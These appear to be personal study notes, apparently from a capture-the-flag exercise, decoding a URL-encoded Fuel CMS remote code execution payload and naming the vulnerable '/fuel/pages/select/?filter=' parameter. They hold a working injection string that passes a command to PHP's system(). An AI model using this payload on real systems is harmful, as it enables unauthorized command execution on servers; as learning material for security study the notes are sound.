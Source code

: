 ### RAW NOTES

**DECODING**: URL ENCODE
```
%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27      CMD       %27%29%2b%27 # from searchsploit 
"http://{IP}/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27"+ CMD +"%27)%2B%27" # https://gist.github.com/anir0y/8529960c18e212948b0e40ed1fb18d6d#file-fuel-cms-py 
```

**OUTPUT**  
```
'+pi(print($a='system'))+$a('      CMD       ')+'
"http://{IP}/fuel/pages/select/?filter='+pi(print($a='system'))+$a('"  CMD  "')+'"
```

From the exploit written they are exploiting he `http://{IP}/fuel/pages/select/?filter=` page and filter parameter with comand and injection vulnerability 




**STUDY SEARCH THIS TERMS**
- FIFO
- TTY 
